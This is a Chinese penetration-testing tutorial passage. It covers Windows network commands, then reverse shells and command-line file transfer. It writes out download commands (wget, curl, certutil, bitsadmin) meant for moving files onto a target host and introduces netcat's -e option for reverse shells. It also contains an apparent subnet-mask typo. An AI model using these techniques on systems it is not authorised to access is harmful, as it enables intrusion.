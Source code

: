 #### 1.2.3 网络与共享

cmd仅用于临时修改IP，虽然记录更改DNS的方式，但如果真的需要同时修改IP和DNS，还是建议使用Windows控制面板改

```cmd
netsh interface ip set address name="网卡名" static 192.168.42.211 25.255.255.0 192.168.42.1    //配置静态地址
netsh interface ip set dns name="以太网 3" static 223.5.5.5
netsh interface ip set address name="以太网 3" source=dhcp    //自动获取地址
netsh interface ip set dns name="以太网 3" source=dhcp

netstat /ano | findstr "80"    //过滤端口
    /a：显示所有连接和监听端口
    /n：以数字形式显示IP和端口号（不解析域名）
    /o：显示每个连接的进程PID

net share               //查看共享数据
net share 共享名 /del    //删除共享
net share 共享名=C:\Users\T450s\Desktop\share    //共享目录
```

## 二、反弹Shell

反弹Shell简单理解就是将目标主机的CLI会话，例如Linux的shell或Windows的CMD程序等，通过网络监听端口映射到攻击者主机上，然后攻击者通过自身的CLI窗口在目标主机上执行命令

[棱角社区](https://forum.ywhack.com/bountytips.php?download)提供了在线的文件下载和反弹Shell的快捷命令生成工具，文件下载命令对应不同的程序、不同系统自动生成对应的命令，反弹Shell也可利用诸多常见程序进行实现

### 2.1.1 文件下载

文件下载主要用于解决渗透测试过程中，目标主机或反弹Shell没有图形化回显的问题，此时要进行数据传输就只能通过命令行处理

```bash
# Linux
wget http://127.0.0.1:80/remote.txt -O local.txt
curl http://127.0.0.1:80/remote.txt -o local.txt

# Windows CMD
certutil.exe -urlcache -split -f http://127.0.0.1:80/remote.txt local.txt
bitsadmin /rawreturn /transfer down "http://127.0.0.1:80/remote.txt" C:\\Users\\hebor\\Desktop\\local.txt

# Windows POWERSHELL
wget http://127.0.0.1:80/remote.txt -O local.txt
curl http://127.0.0.1:80/remote.txt -o local.txt
```

Windows下通过命令行下载文件存在诸多限制条件，例如，不同版本的系统、或不同的命令行工具可以用于执行文件下载的命令用法都各不相同，因此Windows下的命令下文件下载操作需要根据实际情况而定。并且，使用命令行下载文件的操作，还有可能被Windows的防火墙识别为威胁

### 2.1.2 反弹Shell操作

实现反弹Shell需要具备两个前提条件：主机能够在网络中监听一个特定端口、主机能够将自身CLI程序映射到监听的端口上。主机监听某一个特定端口实现比较简单，任一后台守护进程都可以实现端口监听，但将主机自身CLI程序映射到监听的端口上，就需要特定的程序实现。此实验中采用nc（又称netcat）工具进行模拟测试，nc工具是Linux系统自带的网络工具，其`-e`选项用于建立连接后运行指定命令
